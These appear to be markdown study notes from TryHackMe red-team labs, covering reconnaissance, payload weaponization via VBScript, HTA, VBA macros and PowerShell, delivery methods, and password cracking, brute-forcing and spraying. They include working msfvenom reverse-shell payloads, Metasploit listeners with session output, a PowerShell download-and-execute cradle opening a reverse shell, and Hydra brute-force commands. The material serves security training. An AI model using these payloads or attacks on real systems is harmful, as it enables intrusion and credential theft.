


# Initial Access

In a red team operation, you might start with no more than a company name, from which you need to start gathering information about the target. This is where reconnaissance comes into play. Reconnaissance (recon) can be defined as a preliminary survey or observation of your target (client) without alerting them to your activities. If your recon activities create too much noise, the other party would be alerted, which might decrease the likelihood of your success.

## Red Team Recon

### Taxonomy of Reconnaissance

Reconnaissance (recon) can be classified into two parts:

1. **Passive Recon**: can be carried out by watching passively
2. **Active Recon**: requires interacting with the target to provoke it in order to observe its response.

[Passive recon](../cyber/networksecurity.md#passive-reconnaissance) doesn't require interacting with the target. In other words, you aren't sending any packets or requests to the target or the systems your target owns. Instead, passive recon relies on publicly available information that is collected and maintained by a third party. Open Source Intelligence (OSINT) is used to collect information about the target and can be as simple as viewing a target's publicly available social media profile. Example information that we might collect includes domain names, IP address blocks, email addresses, employee names, and job posts. 

[Active recon](../cyber/networksecurity.md#active-reconnaissance) requires interacting with the target by sending requests and packets and observing if and how it responds. The responses collected-or lack of responses-would enable us to expand on the picture we started developing using passive recon. An example of active reconnaissance is using Nmap to scan target subnets and live hosts. Other examples can be found in the Active Reconnaissance room. Some information that we would want to discover include live hosts, running servers, listening services, and version numbers.

Active recon can be classified as:

1. **External Recon**: Conducted outside the target's network and focuses on the externally facing assets assessable from the Internet. One example is running Nikto from outside the company network.
2. **Internal Recon**: Conducted from within the target company's network. In other words, the pentester or red teamer might be physically located inside the company building. In this scenario, they might be using an exploited host on the target's network. An example would be using Nessus to scan the internal network using one of the target's computers.

### Built-in Tools

[`whois`](../cyber/networksecurity.md#whois)

[`nslookup` & `dig`](../cyber/networksecurity.md#nslookup-and-dig)

[`traceroute`](../cyber/networksecurity.md#traceroute)

---

### Advanced Searching

Being able to use a search engine efficiently is a crucial skill. The following table shows some popular search modifiers that work with many popular search engines.

| Symbol / Syntax               | Function                                                    |
|-------------------------------|-------------------------------------------------------------|
| `"search phrase"`             | Find results with exact search phrase                       |
| `OSINT filetype:pdf`         | Find files of type PDF related to a certain term.         |
| `salary site:blog.tryhackme.com` | Limit search results to a specific site.                    |
| `pentest -site:example.com`   | Exclude a specific site from results                        |
| `walkthrough intitle:TryHackMe`| Find pages with a specific term in the page title.          |
| `challenge inurl:tryhackme`   | Find pages with a specific term in the page URL.           |

Note: In addition to `pdf`, other filetypes to consider are: `doc`, `docx`, `ppt`, `pptx`, `xls` and `xlsx`.

[Search Skills details](../cyber/skills.md#search-skills)

<span style="font-size: 23px;">**Social Media**</span>

Social media websites have become very popular for not only personal use but also for corporate use. Some social media platforms can reveal tons of information about the target. This is especially true as many users tend to overshare details about themselves and their work. To name a few, it's worthwhile checking the following:

- LinkedIn
- Twitter
- Facebook
- Instagram

Social media websites make it easy to collect the names of a given company's employees; moreover, in certain instances, you might learn specific pieces of information that can reveal answers to password recovery questions or gain ideas to include in a targeted wordlist. Posts from technical staff might reveal details about a company's systems and vendors. For example, a network engineer who was recently issued Juniper certifications may allude to Juniper networking infrastructure being used in their employer's environment.

<span style="font-size: 23px;">**Job Ads**</span>

Job advertisements can also tell you a lot about a company. In addition to revealing names and email addresses, job posts for technical positions could give insight into the target company's systems and infrastructure. The popular job posts might vary from one country to another. Make sure to check job listing sites in the countries where your client would post their ads. Moreover, it is always worth checking their website for any job opening and seeing if this can leak any interesting information.

Note that the [Wayback Machine](https://web.archive.org/) can be helpful to retrieve previous versions of a job opening page on your client's site.

---

### Specialized Search Engines

[details](../cyber/skills.md#specialized-search-engines)

---

### Recon-ng

[Recon-ng](https://github.com/lanmaster53/recon-ng) is a framework that helps automate the OSINT work. It uses modules from various authors and provides a multitude of functionality. Some modules require keys to work; the key allows the module to query the related online [API](../common.md#api). In this task, we will demonstrate using Recon-ng in the terminal.

From a penetration testing and red team point of view, Recon-ng can be used to find various bits and pieces of information that can aid in an operation or OSINT task. All the data collected is automatically saved in the database related to your workspace. For instance, you might discover host addresses to later port-scan or collect contact email addresses for [phishing](../common.md#phishing) attacks.

You can start Recon-ng by running the command `recon-ng`. Starting Recon-ng will give you a prompt like `[recon-ng][default] >`. At this stage, you need to select the installed module you want to use. However, if this is the first time you're running `recon-ng`, you will need to install the module(s) you need.

**workflow:**

1. Create a workspace for your project
2. Insert the starting information into the database
3. Search the marketplace for a module and learn about it before installing
4. List the installed modules and load one
5. Run the loaded module

<span style="font-size: 23px;">**Creating a Workspace**</span>

```bash
# starts recon-ng with the specific workspace
recon-ng -w WORKSPACE_NAME

#  create a new workspace for your investigation
workspaces create WORKSPACE_NAME
```

<span style="font-size: 23px;">**Seeding the Database**</span>

insert the domain name xxx.com into the domains table
```bash
db insert domains
```

<span style="font-size: 23px;">**Recon-ng Marketplace**</span>

**marketplace usage**

- `marketplace search KEYWORD` to search for available modules with keyword.
- `marketplace info MODULE` to provide information about the module in question.
- `marketplace install MODULE` to install the specified module into Recon-ng.
- `marketplace remove MODULE` to uninstall the specified module.

<span style="font-size: 23px;">**Working with Installed Modules**</span>

**modules usage**

- `modules search` to get a list of all the installed modules
- `modules load MODULE` to load a specific module to memory
- `options list` to list the options that we can set for the loaded module.
- `options set <option> <value>` to set the value of the option.
- `info` to review the loaded module's info.
- `run` to execute the loaded module.
- `CTRL + C` or `back` unloads the module.

<span style="font-size: 23px;">**Keys**</span>

Some modules cannot be used without a key for the respective service API. `K` indicates that you need to provide the relevant service key to use the module in question.

- `keys list` lists the keys
- `keys add KEY_NAME KEY_VALUE` adds a key
- `keys remove KEY_NAME` removes a key

---

### Maltego

[Maltego](https://www.maltego.com/) is an application that blends mind-mapping with OSINT. In general, you would start with a domain name, company name, person's name, email address, etc. Then you can let this piece of information go through various transforms.

The information collected in Maltego can be used for later stages. For instance, company information, contact names, and email addresses collected can be used to create very legitimate-looking phishing emails.

Think of each block on a Maltego graph as an entity. An entity can have values to describe it. In Maltego's terminology, a **transform** is a piece of code that would query an API to retrieve information related to a specific entity. The logic is shown in the figure below. *Information related to an entity goes via a transform to return zero or more entities*.


It is crucial to mention that some of the transforms available in Maltego might actively connect to the target system. Therefore, it is better to know how the transform works before using it if you want to limit yourself to passive reconnaissance.

Every transform might lead to several new values. For instance, if we start from the "DNS Name" `cafe.thmredteam.com`, we expect to get new kinds of entities based on the transform we use. For instance, "To IP Address" is expected to return IP addresses as shown next.



One way to achieve this on Maltego is to right-click on the "DNS Name" `cafe.thmredteam.com` and choose:

1. Standard Transforms
2. Resolve to IP
3. To IP Address (DNS)
After executing this transform, we would get one or more IP addresses, as shown below.

After executing this transform, we would get one or more IP addresses, as shown below.



Then we can choose to apply another transform for one of the IP addresses. Consider the following transform:

1. DNS from IP
2. To DNS Name from passive [DNS](../common.md#dns)(Robtex)

This transform will populate our graph with new DNS names. With a couple more clicks, you can get the location of the IP address, and so on. The result might be similar to the image below.


The above two examples should give you an idea of the workflow using Maltego. You can observe that all the work is based on transforms, and Maltego will help you keep your graph organized. You would get the same results by querying the different online websites and databases; however, Maltego helps you get all the information you need with a few clicks.

We experimented with `whois` and `nslookup` in a previous task. You get plenty of information, from names and email addresses to IP addresses. The results of `whois` and `nslookup` are shown visually in the following Maltego graph. Interestingly, Maltego transforms were able to extract and arrange the information returned from the WHOIS database. Although the returned email addresses are not helpful due to privacy protection, it is worth seeing how Maltego can extract such information and how it's presented.


[ Maltego Transform Hub](https://www.maltego.com/transform-hub/)

## Weaponization

<span style="font-size: 23px;">**What is Weaponization**</span>

Weaponization is the second stage of the Cyber Kill Chain model. In this stage, the attacker generates and develops their own malicious code using deliverable payloads such as word documents, PDFs, etc. [1](https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html). The weaponization stage aims to use the malicious weapon to exploit the target machine and gain initial access.

Most organizations have Windows OS running, which is going to be a likely target. An organization's environment policy often blocks downloading and executing `.exe` files to avoid security violations. Therefore, red teamers rely upon building custom payloads sent via various channels such as [phishing](../common.md#phishing) campaigns, [social engineering](../common.md#social-engineering), browser or software exploitation, USB, or web methods.

The following graph is an example of weaponization, where a crafted custom PDF or Microsoft Office document is used to deliver a malicious payload. The custom payload is configured to connect back to the command and control environment of the red team infrastructure.


For more information about red team toolkits, please visit the following: a [GitHub repository](https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development) that has it all, including initial access, payload development, delivery methods, and others.

Most organizations block or monitor the execution of .exe files within their controlled environment. For that reason, red teamers rely on executing payloads using other techniques, such as built-in windows scripting technologies. Therefore, this task focuses on various popular and effective scripting techniques, including:

- The Windows Script Host (WSH)
- An HTML Application ([HTA](../common.md#hta))
- Visual Basic Applications (VBA)
- PowerShell (PSH)

### WSH

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system.

It is a Windows native engine, `cscript.exe` (for command-line scripts) and `wscript.exe` (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including `vbs` and `vbe`. For more information about VBScript, please visit [here](https://en.wikipedia.org/wiki/VBScript). It is important to note that the VBScript engine on a Windows operating system runs and executes applications with the same level of access and permission as a regular user; therefore, it is useful for the red teamers.

Now let's write a simple VBScript code to create a windows message box that shows the Welcome to THM message. Make sure to save the following code into a file, for example, hello.vbs

```vb
Dim message 
message = "Welcome to THM"
MsgBox message
```
In the first line, we declared the `message` variable using `Dim`. Then we store a string value of `Welcome to THM` in the `message` variable. In the next line, we use the MsgBox function to show the content of the variable. For more information about the MsgBox function, please visit [here](https://learn.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/scripting-articles/sfw6660x(v=vs.84)?redirectedfrom=MSDN). Then, we use `wscript` to run and execute the content of `hello.vbs`. As a result, A Windows message will pop up with the `Welcome to THM` message.


Now let's use the VBScript to run executable files. The following `vbs` code is to invoke the Windows calculator, proof that we can execute `.exe` files using the Windows native engine (WSH).

```vb
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```
We create an object of the `WScript` library using `CreateObject` to call the execution payload. Then, we utilize the `Run` method to execute the payload. For this task, we will run the Windows calculator `calc.exe`. 

To execute the `vbs` file, we can run it using the `wscript` as follows, 

```bash
 wscript .\calc_shell.vbs
```
```bash
cscript .\calc_shell.vbs
```


Another trick. If the VBS files are blacklisted, then we can rename the file to `.txt` file and run it using `wscript` as follows,

```vb
cscript /e:VBScript .\calc_shell.txt
```
---

### HTA

HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. `HTML` Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool `mshta` is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer. 

In the following example, we will use an [ActiveXObject](https://en.wikipedia.org/wiki/ActiveX) in our payload as proof of concept to execute `cmd.exe`. Consider the following HTML code.

```html
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
Then serve the payload.hta from a web server, this could be done from the attacking machine as follows,

```bash
user@machine$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/)
```
On the victim machine, visit the malicious link using Microsoft Edge, `http://attack-ip:8090/payload.hta`. 

Once we press `Run`, the `payload.hta` gets executed, and then it will invoke the cmd.exe. The following figure shows that we have successfully executed the `cmd.exe`.

**HTA Reverse Connection**

We can create a reverse shell payload as follows,

```bash
user@machine$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of hta-psh file: 7692 bytes
Saved as: thm.hta
```
We use the `msfvenom` from the `Metasploit` framework to generate a malicious payload to connect back to the attacking machine. We used the following payload to connect the `windows/x64/shell_reverse_tcp` to our IP and listening port.

On the attacking machine, we need to listen to the port `443` using `nc`. Please note this port needs root privileges to open, or you can use different ones.

Once the victim visits the malicious URL and hits run, we get the connection back.

<span style="font-size: 23px;">**Malicious HTA via Metasploit**</span>

There is another way to generate and serve malicious HTA files using the Metasploit framework. First, run the Metasploit framework using `msfconsole -q` command. Under the exploit section, there is `exploit/windows/misc/hta_server`, which requires selecting and setting information such as `LHOST`, `LPORT`, `SRVHOST`, `Payload`, and finally, executing exploit to run the module.

```bash
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
LHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
SRVHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) >
[*] Started reverse TCP handler on 10.8.232.37:443
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta
[*] Server started.
```
On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.

---

### VBA

<span style="font-size: 23px;">**Visual Basic for Application (VBA)**</span>

VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications.

Macros are Microsoft Office applications that contain embedded code written in a programming language known as Visual Basic for Applications (VBA). It is used to create custom functions to speed up manual tasks by creating automated processes. One of VBA's features is accessing the Windows Application Programming Interface ([API](https://en.wikipedia.org/wiki/Windows_API)) and other low-level functionality. For more information about VBA, visit [here](https://en.wikipedia.org/wiki/Visual_Basic_for_Applications). 

**payload**

1. create meterpreter payload using `msfvenom`
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.138.218 LPORT=1443 -f vba
```
2. copy this macro into a Word document on the target machine.change the `Workbook_Open()` to `Document_Open()` to make it suitable for MS word documents.


3. From the attacking machine, run the Metasploit framework and set the listener as follows:
```bash
┌──(root㉿kali)-[~/Desktop]
└─# msfconsole -q
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.138.218
LHOST => 10.10.138.218
msf6 exploit(multi/handler) > set LPORT 1443
LPORT => 443
msf6 exploit(multi/handler) > exploit 

msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.138.218:1443 
[*] Sending stage (175686 bytes) to 10.10.178.26
[*] Meterpreter session 10 opened (10.10.138.218:1443 -> 10.10.178.26:50522) at 2025-07-15 07:20:56 +0000
meterpreter > sysinfo
Computer        : DESKTOP-1AU6NT4
OS              : Windows 10 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```
---

### PSH

[PowerShell](../windows/WindowsCommand.md#powershell) is an object-oriented programming language executed from the Dynamic Language Runtime (DLR) in .NET with some exceptions for legacy uses.

<span style="font-size: 23px;">**Bypass Execution Policy**</span>

```bash
C:\Users\thm\Desktop>powershell -ex bypass -File thm.ps1
Welcome to Weaponization Room!
```
<span style="font-size: 23px;">**payload**</span>

**attacker**

```bash
# download payload
git clone https://github.com/besimorhino/powercat.git
# run a webserver to deliver the payload.
cd powercat
python3 -m http.server 8090
```
**victim**

```bash
C:\work>powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.138.218:8090/powercat.ps1');powercat -c 10.10.138.218 -p 1337 -e cmd"
```

**listening**

```bash
└─# nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.138.218] from (UNKNOWN) [10.10.178.26] 50799
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\work>ver
ver

Microsoft Windows [Version 10.0.14393]
```
---

### C2

[C2](../security/c2.md) frameworks are post-exploitation frameworks that allow red teamers to collaborate and control compromised machines. C2 is considered one of the most important tools for red teamers during offensive cyber operations. C2 frameworks provide fast and straightforward approaches to:

- Generate various malicious payloads
- Enumerate the compromised machine/networks
- Perform privilege escalation and pivoting
- Lateral movement 
- And many others

---

### Delivery Techniques 

Delivery techniques are one of the important factors for getting initial access. They have to look professional, legitimate, and convincing to the victim in order to follow through with the content.

<span style="font-size: 23px;">**Email Delivery**</span>

It is a common method to use in order to send the payload by sending a phishing email with a link or attachment. For more info, visit [here](https://attack.mitre.org/techniques/T1566/001/). This method attaches a malicious file that could be the type we mentioned earlier. The goal is to convince the victim to visit a malicious website or download and run the malicious file to gain initial access to the victim's network or host.

The red teamers should have their own infrastructure for phishing purposes. Depending on the red team engagement requirement, it requires setting up various options within the email server, including DomainKeys Identified Mail ([DKIM](../common.md#dkim)), Sender Policy Framework ([SPF](../common.md#spf)), and DNS Pointer (PTR) record.

The red teamers could also use third-party email services such as Google Gmail, Outlook, Yahoo, and others with good reputations.

<span style="font-size: 23px;">**Web Delivery**</span>

Another method is hosting malicious payloads on a web server controlled by the red teamers. The web server has to follow the security guidelines such as a clean record and reputation of its domain name and TLS (Transport Layer Security) certificate. For more information, visit [here](https://attack.mitre.org/techniques/T1189/).

This method includes other techniques such as social engineering the victim to visit or download the malicious file. A URL shortener could be helpful when using this method.

In this method, other techniques can be combined and used. The attacker can take advantage of zero-day exploits such as exploiting vulnerable software like Java or browsers to use them in phishing emails or web delivery techniques to gain access to the victim machine.

<span style="font-size: 23px;">**USB Delivery**</span>

This method requires the victim to plug in the malicious USB physically. This method could be effective and useful at conferences or events where the adversary can distribute the USB. For more information about USB delivery, visit [here](https://attack.mitre.org/techniques/T1091/).

Often, organizations establish strong policies such as disabling USB usage within their organization environment for security purposes. While other organizations allow it in the target environment.

Common USB attacks used to weaponize USB devices include [Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky) and [USBHarpoon](https://www.minitool.com/news/usbharpoon.html), charging USB cable, such as [O.MG Cable](https://shop.hak5.org/products/omg-cable)

## Password Attacks

<span style="font-size: 23px;">**What is a password?**</span>

A collection of passwords is often referred to as a dictionary or wordlist. Passwords with low complexity that are easy to guess are commonly found in various publicly disclosed password data breaches. For example, an easy-to-guess password could be `password`, `123456`, `111111`, and much more. Here are the [top most common and seen passwords](https://en.wikipedia.org/wiki/Wikipedia:10,000_most_common_passwords) for your reference. Thus, it won't take long and be too difficult for the attacker to run password attacks against the target or service to guess the password. Choosing a strong password is a good practice, making it hard to guess or crack. Strong passwords should not be common words or found in dictionaries as well as the password should be an eight characters length at least. It also should contain uppercase and lower case letters, numbers, and symbol strings (ex: `*&^%$#@`).

### Password Profiling

Having a good wordlist is critical to carrying out a successful password attack. It is important to know how you can generate username lists and password lists.

**Default**, **Weak**, **Leaked**, **Combined** , and **Username Wordlists**

**Keyspace Technique** and **CUPP**

<span style="font-size: 23px;">**Default Passwords**</span>

**admin:admin**, **admin:123456**

Here are some website lists that provide default passwords for various products.

- https://cirt.net/passwords
- https://default-password.info/
- https://datarecovery.com/rd/default-passwords/

<span style="font-size: 23px;">**Weak Passwords**</span>

Professionals collect and generate weak password lists over time and often combine them into one large wordlist. Lists are generated based on their experience and what they see in pentesting engagements. These lists may also contain leaked passwords that have been published publically. Here are some of the common weak passwords lists :

- https://www.skullsecurity.org/wiki/Passwords - This includes the most well-known collections of passwords.
- [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords) - A huge collection of all kinds of lists, not only for password cracking.

<span style="font-size: 23px;">**Leaked Passwords**</span>

Sensitive data such as passwords or hashes may be publicly disclosed or sold as a result of a breach. These public or privately available leaks are often referred to as 'dumps'. Depending on the contents of the dump, an attacker may need to extract the passwords out of the data. In some cases, the dump may only contain hashes of the passwords and require cracking in order to gain the plain-text passwords. The following are some of the common password lists that have weak and leaked passwords, including `webhost`, `elitehacker`,`hak5`, `Hotmail`, `PhpBB` companies' leaks:

- [SecLists/Passwords/Leaked-Databases](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Leaked-Databases)

<span style="font-size: 23px;">**Combined wordlists**</span>

 combine wordlists into one large file

```bash
cat file1.txt file2.txt file3.txt > combined_list.txt
```
clean up the generated combined list to remove duplicated words

```bash
sort combined_list.txt | uniq -u > cleaned_combined_list.txt
```
<span style="font-size: 23px;">**Customized Wordlists**</span>

Tools such as `Cewl` can be used to effectively crawl a website and extract strings or keywords. `Cewl` is a powerful tool to generate a wordlist specific to a given company or target. Consider the following example below:

```bash
cewl -w list.txt -d 5 -m 5 https://clinic.thmredteam.com/
```
- `-w` will write the contents to a file. In this case, `list.txt`.
- `-m 5` gathers strings (words) that are 5 characters or more
- `-d 5` is the depth level of web crawling/spidering (default 2)

<span style="font-size: 23px;">**Username Wordlists**</span>

**username_generator**

```bash
git clone https://github.com/therodri2/username_generator.git

cd username_generator

python3 username_generator.py -h

python3 username_generator.py -w users.lst
```

<span style="font-size: 23px;">**Keyspace Technique**</span>

Another way of preparing a wordlist is by using the key-space technique. In this technique, we specify a range of characters, numbers, and symbols in our wordlist. `crunch` is one of many powerful tools for creating an offline wordlist. With `crunch`, we can specify numerous options, including min, max, and options as follows:

**creates a wordlist containing all possible combinations of 2 characters**
```bash
┌──(root㉿kali)-[~]
└─# crunch 2 2 01a -o crunch.txt 
Crunch will now generate the following amount of data: 27 bytes
...
Crunch will now generate the following number of lines: 9 

crunch: 100% completed generating output
                                                                                                                              
┌──(root㉿kali)-[~]
└─# cat crunch.txt              
00
01
0a
10
11
1a
a0
a1
aa
```
`crunch` also lets us specify a character set using the -t option to combine words of our choice. Here are some of the other options that could be used to help create different combinations of your choice:

- `@` - lower case alpha characters

- `,` - upper case alpha characters

- `%` - numeric characters

- `^` - special characters including space

```bash
┌──(root㉿kali)-[~]
└─# crunch 6 6 -t pass%%
Crunch will now generate the following amount of data: 700 bytes
...
Crunch will now generate the following number of lines: 100 
pass00
pass01
...
pass97
pass98
pass99
```

<span style="font-size: 23px;">**CUPP - Common User Passwords Profiler**</span>

CUPP is an automatic and interactive tool written in Python for creating custom wordlists. For instance, if you know some details about a specific target, such as their birthdate, pet name, company name, etc., this could be a helpful tool to generate passwords based on this known information. CUPP will take the information supplied and generate a custom wordlist based on what's provided. There's also support for a `1337/leet mode`, which substitutes the letters `a`, `i`, `e`, `t`, `o`, `s`, `g`, `z`  with numbers. For example, replace a  with 4  or i with 1. For more information about the tool, please visit the GitHub repo [here](https://github.com/Mebus/cupp).

```bash
git clone https://github.com/Mebus/cupp.git

cd cupp

python cupp.py 

```

`python3 cupp.py -i`

`python3 cupp.py -l`

`python3 cupp.py -a`

### Offline Attacks

**Dictionary attack**, **Brute-Force**, **Rule-Based**

<span style="font-size: 23px;">**Dictionary attack**</span>

A dictionary attack is a technique used to guess passwords by using well-known words or phrases. The dictionary attack relies entirely on pre-gathered wordlists that were previously generated or found. It is important to choose or create the best candidate wordlist for your target in order to succeed in this attack. 

**hashcat**

[details](../cyber/tools.md#hashcat)
```bash
hashcat -a 0 -m 0 F806FC5A2A0D5BA2471600758452799C /usr/share/wordlists/rockyou.txt --show
```
- `-a 0`  sets the attack mode to a dictionary attack
- `-m 0`  sets the hash mode for cracking [MD5](../common.md#md5) hashes; for other types, run `hashcat -h` for a list of supported hashes.
- `--show` show the cracked value if the hash has been cracked

<span style="font-size: 23px;">**Brute-Force attack**</span>

Brute-forcing is a common attack used by the attacker to gain unauthorized access to a personal account. This method is used to guess the victim's password by sending standard password combinations. The main difference between a dictionary and a brute-force attack is that a dictionary attack uses a wordlist that contains all possible passwords.n contrast, a brute-force attack aims to try all combinations of a character or characters.

```bash
hashcat -a 3 ?d?d?d?d --stdout
```

```bash
hashcat -a 3 -m 0 05A5CF06982BA7892ED2A6D38FE832D6 ?d?d?d?d
```

- `-a 3`  sets the attacking mode as a brute-force attack
- `?d?d?d?d` the ?d tells hashcat to use a digit. In our case, ?d?d?d?d for four digits starting with 0000 and ending at 9999
- `--stdout` print the result to the terminal

<span style="font-size: 23px;">**Rule-Based attacks**</span>

Rule-Based attacks are also known as `hybrid attacks`. Rule-Based attacks assume the attacker knows something about the password policy. Rules are applied to create passwords within the guidelines of the given password policy and should, in theory, only generate valid passwords. Using pre-existing wordlists may be useful when generating passwords that fit a policy — for example, manipulating or 'mangling' a password such as 'password': `p@ssword`, `Pa$$word`, `Passw0rd`, and so on.

For this attack, we can expand our wordlist using either hashcat or [John the ripper](../security/john.md). However, for this attack, let's see how `John the ripper` works. Usually, John the ripper has a config file that contains rule sets, which is located at `/etc/john/john.conf` or `/opt/john/john.conf` depending on your distro or how john was installed. You can read `/etc/john/john.conf` and look for `List.Rules` to see all the available rules:

```bash
cat /etc/john/john.conf|grep "List.Rules:" | cut -d"." -f3 | cut -d":" -f2 | cut -d"]" -f1 | awk NF
```

**Custom Rules**

`[symbols]word[0-9]`

We can add our rule to the end of john.conf

```bash
user@machine$ sudo vi /etc/john/john.conf 
[List.Rules:THM-Password-Attacks] 
Az"[0-9]" ^[!@#$]
```
- `[List.Rules:THM-Password-Attacks]`  specify the rule name THM-Password-Attacks.
- `Az` represents a single word from the original wordlist/dictionary using `-p`.
- `"[0-9]"` append a single digit (from 0 to 9) to the end of the word. For two digits, we can add "[0-9][0-9]"  and so on.  

- `^[!@#$]` add a special character at the beginning of each word. `^` means the beginning of the line/word. Note, changing `^` to `$` will append the special characters to the end of the line/word.

```bash
echo "password" > /tmp/single.lst
john --wordlist=/tmp/single.lst --rules=THM-Password-Attacks --stdout  | wc -l
```
---

### Online password attacks

Online password attacks involve guessing passwords for networked services that use a username and password authentication scheme, including services such as HTTP, SSH, VNC, [FTP](../common.md#ftp), SNMP, [POP3](../common.md#pop3), etc.

**before**

create custom wordlist.
```bash
cewl -m 8 -w clinic.lst https://clinic.thmredteam.com/ 
```

<span style="font-size: 23px;">**Hydra**</span>

[Hydra](../security/offensivetools.md#hydra) supports an extensive list of network services to attack. Using hydra, we'll brute-force network services such as web login pages, FTP, SMTP, and SSH in this section. Often, within hydra, each service has its own options and the syntax hydra expects takes getting used to. It's important to check the help options for more information and features.

**FTP**

```bash
hydra -l ftp -P clinic.lst ftp://10.10.103.127
```

Remember that sometimes you don't need to brute-force and could first try default credentials. Try to attack the FTP server on the attached VM and answer the question below.

**SMTP**

```bash
user@machine$ sudo vi /etc/john/john.conf 
[List.Rules:THM-Password-Attacks] 
Az"[0-9][0-9]" ^[!@#$]
```

```bash
john --wordlist=clinic.lst --rules=THM-Password-Attacks --stdout > wordlist.txt
```

```bash
hydra -l pittman@clinic.thmredteam.com -P wordlist.txt smtps://10.10.103.127 -Vv
```

**SSH**

```bash
hydra -L users.lst -P /path/to/wordlist.txt ssh://10.10.x.x -v
```

**HTTP login pages**

```bash
hydra -l phillips -P clinic.lst 10.10.103.127 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
```

```bash
john --wordlist=clinic.lst --rules=Single-Extra --stdout > wordlist-http.txt

hydra -l burgess -P wordlist-http.txt 10.10.103.127 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
```

---

### Password spray attack

Password Spraying is an effective technique used to identify valid credentials. Nowadays, password spraying is considered one of the common password attacks for discovering weak passwords. This technique can be used against various online services and authentication systems, such as SSH, SMB, RDP, SMTP, Outlook Web Application, etc. A brute-force attack targets a specific username to try many weak and predictable passwords. While a password spraying attack targets many usernames using one common weak password, which could help avoid an account lockout policy. The following figure explains the concept of password spraying attacks where the attacker utilizes one common password against multiple users.


Common and weak passwords often follow a pattern and format. Some commonly used passwords and their overall format can be found below.

- The current season followed by the current year (SeasonYear). For example, `Fall2020`, `Spring2021`, etc.
- The current month followed by the current year (MonthYear). For example, `November2020`, `March2021`, etc.
- Using the company name along with random numbers (CompanyNameNumbers). For example, `TryHackMe01`, `TryHackMe02`.

If a password complexity policy is enforced within the organization, we may need to create a password that includes symbols to fulfill the requirement, such as `October2021!`, `Spring2021!`, `October2021@`, etc. **To be successful in the password spraying attack, we need to enumerate the target and create a list of valid usernames (or email addresses list).**

